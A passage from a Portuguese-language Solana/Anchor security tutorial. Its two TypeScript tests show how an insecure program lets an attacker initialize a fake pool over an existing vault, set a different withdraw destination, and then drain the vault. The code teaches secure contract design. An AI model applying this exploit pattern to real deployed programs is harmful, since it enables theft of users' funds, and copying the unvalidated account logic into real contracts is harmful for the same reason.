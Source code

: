 Depois disso, há mais dois testes para mostrar como as instruções são vulneráveis à exploração.

O primeiro teste invoca a instrução `initialize_pool` para criar uma conta `pool` "falsa" usando a mesma conta de token `vault`, mas um `withdraw_destination` diferente.

O segundo teste retira desta pool, roubando fundos do vault.

```tsx
it("Inicialização insegura permite que o pool seja inicializado com cofre errado", async () => {
    await program.methods
      .initializePool(authInsecureBump)
      .accounts({
        pool: poolInsecureFake.publicKey,
        mint: mint,
        vault: vaultInsecure.address,
        withdrawDestination: withdrawDestinationFake,
        payer: walletFake.publicKey,
      })
      .signers([walletFake, poolInsecureFake])
      .rpc()

    await new Promise((x) => setTimeout(x, 1000))

    await spl.mintTo(
      connection,
      wallet.payer,
      mint,
      vaultInsecure.address,
      wallet.payer,
      100
    )

    const account = await spl.getAccount(connection, vaultInsecure.address)
    expect(Number(account.amount)).to.equal(100)
})

it("A retirada insegura permite roubar do cofre", async () => {
    await program.methods
      .withdrawInsecure()
      .accounts({
        pool: poolInsecureFake.publicKey,
        vault: vaultInsecure.address,
        withdrawDestination: withdrawDestinationFake,
        authority: authInsecure,
        signer: walletFake.publicKey,
      })
      .signers([walletFake])
      .rpc()

    const account = await spl.getAccount(connection, vaultInsecure.address)
    expect(Number(account.amount)).to.equal(0)
})
```
